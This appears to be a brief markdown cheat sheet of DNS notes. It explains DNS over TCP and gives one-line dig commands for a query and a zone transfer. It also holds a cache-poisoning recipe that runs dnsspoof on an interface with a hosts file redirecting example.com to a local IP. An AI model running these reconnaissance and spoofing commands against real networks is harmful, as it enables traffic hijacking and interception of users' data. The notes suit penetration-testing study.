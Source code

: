 # DNS on TCP

Only need for exposing DNS over TCP when response is > 512 bytes
* zone-transfers.
* DNSSec
* IPv6

# DNS Zone Transfer

`dig axfr IP_OF_DNS_SERVER example.com`

# DNS query

`dig @IP_OF_DNS_SERVER example.com`

# DNS cache poisoning

`dnsspoof -i eth0 -f hosts.txt`

hosts.txt
```
192.168.1.111 example.com
```
